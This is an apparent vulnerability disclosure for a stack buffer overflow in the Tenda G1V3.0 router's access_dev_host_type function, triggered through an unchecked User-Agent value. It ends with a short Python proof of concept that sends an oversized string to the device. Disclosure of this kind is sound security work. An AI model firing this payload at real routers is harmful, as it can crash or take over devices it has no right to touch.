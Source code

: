 # Tenda G1V3.0 access_dev_host_type
### Overview
vendor: Tenda Enterprise-level wired router

product: G1V3.0 

version: V16.01.7.7(2631)

type: Stack Overflow
### Vulnerability Description
Tenda G1V3.0 Enterprise-level wired router V16.01.7.7(2631) were discovered to contain a stack overflow in the access_dev_host_type function.This device has an unauthorized RCE vulnerability. Attackers can obtain root privileges without logging in.
### Vulnerability details
In function access_dev_host_type line 15、19, it reads in a user-provided parameter `User-Agent`, and the variable `v5` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G1v30-1-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
